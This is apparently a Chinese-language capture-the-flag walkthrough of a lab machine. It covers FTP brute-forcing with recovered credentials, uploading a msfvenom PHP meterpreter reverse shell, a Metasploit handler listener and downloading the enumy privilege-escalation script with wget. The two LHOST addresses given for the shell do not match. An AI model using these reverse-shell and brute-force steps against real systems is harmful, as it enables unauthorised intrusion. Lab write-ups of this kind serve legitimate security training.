




# 信息搜集

## 主机发现



# 漏洞发现与利用

扫一下80端口目录没扫出来东西,目标锁向21端口,cewl工具跑一下关键词,获取到可能存在的用户名



暴力破解


```
用户名: chili
密码: a1b2c3d4
```

登录ftp

ftp 192.168.182.131     

发现有777权限的目录



进入后用msf生成shell并上传

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.200.129 LPORT=4444 -f raw  > shell.php
```

别忘了给shell加777权限

浏览器访问shell成功拿到shell

# 提权

```
use exploit/multi/handler
set payload php/meterpreter_reverse_tcp
set LHOST 192.168.43.221
set LPORT 2233
run
```

浏览器访问我们的shell



进入交互模式

在.nano目录中使用wget下载https://github.com/luke-goddard/enumy提权脚本

关于enumy工具:https://www.cnblogs.com/zzjdbk/p/14094663.html